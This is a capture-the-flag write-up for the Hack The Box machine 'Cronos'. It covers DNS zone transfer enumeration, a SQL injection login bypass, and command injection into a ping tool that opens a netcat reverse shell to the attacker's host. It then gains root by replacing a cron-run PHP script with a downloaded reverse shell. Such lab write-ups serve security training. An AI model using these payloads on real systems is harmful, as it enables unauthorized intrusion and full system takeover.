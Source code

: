 # Cronos

Cronos was a medium linux box that required gaining access to a code execution site through dns searching and sql injection. This was then used to gain a shell on the system and read the user flag. Root required some enumeration to find the `/etc/crontab` file which we can abuse to gain a root shell with php.

> Skills involved in this box:

- enumeration
- privelage escalation
- dns searching using dig
- SQL 

# USER

As always we start off with an nmap scan:
```bash
kali@kali:~/boxes/cronos$ nmap -sC -sV -o nmap 10.10.10.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 04:51 EDT
Nmap scan report for 10.10.10.13
Host is up (0.036s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.08 seconds
```

The scan shows port 22 open on ssh even though it is not needed for this box. Port 80 fo http and port 53 open on tcp which we can use to try ad find subdomains for the host later.

We visit the page at http and find a default apache page. We quickly add `cronos.htb` to our hosts and refresh the page. We now get a normal website which doesnt seem too interesting.

We run directory brute-force tools such as gobuster but we dont find anything.

Instead we use `dig` to try and find any subdomains on `cronos.htb`:
```bash
kali@kali:~/boxes/cronos$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.16.3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 20 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jun 27 04:55:32 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
We Add all of theese to our hosts file which now looks like this: `10.10.10.13    cronos.htb www.cronos.htb ns1.cronos.htb admin.cronos.htb`

Navigating to `admin.cronos.htb` we find a login page, We try and guess common passwords but none of which work.

We then try to use SQL Injection to try and bypass the login page and it worked.

We used the username: `admin' OR 1=1 -- -` and we left the password field blank and we manage to login succesfully.

Now it shows us the title `Net Tool v0.1` and we can execute commands via the execute section where it allows us to ping an ip address.

It lets us ping an ip so we try to ping our own to see if we get a connection and it works.

we intercept the request with burpe to see whats going on.

`command=ping+-c+1&host=10.10.xx.xx`  - this is basically what it shows when executing the command, we can try edit this command to get code execution with anything such as `whoami` or `id`.

We then drop the request and go back to the page and see if we can get a reverse shell.

`10.10.xx.xx; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f`

We enter this into the command bar and setup a listener and we get a shell.

From here we can then go on to read the user flag.
```bash
kali@kali:~/boxes/cronos$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 51974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```
# ROOT

By running linenum.sh on the system we find an interesting file on it called `/etc/crontab`.

```bash
ww-data@cronos:/home/noulis$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We can see that this file is being ran as root, lets see if we can exploit it.

We see that it is running `/var/www/laravel/artisan` as root with php meaning its a php file. Lets try and add a reverse shell to the file and see if it executes it.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
10.10.10.13 - - [27/Jun/2020 05:12:20] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```
We setup a python server to host our rev-shell file(which is edited to include our ip and port)
```bash
www-data@cronos:/tmp$ wget 10.10.14.7:8081/php-reverse-shell.php
wget 10.10.14.7:8081/php-reverse-shell.php
--2020-06-27 12:15:48--  http://10.10.14.7:8081/php-reverse-shell.php
Connecting to 10.10.14.7:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0.003s  

2020-06-27 12:15:48 (1.63 MB/s) - 'php-reverse-shell.php' saved [5492/5492]

www-data@cronos:/tmp$

www-data@cronos:/var/www/laravel$ cp /tmp/php-reverse-shell.php artisan
cp /tmp/php-reverse-shell.php artisan
```
Now we just set up a listener on the specified port that we added in our shell file and wait for a connection.

```bash
kali@kali:~$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 46434
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:18:01 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```
Thanks for reading hope you enjoyed.
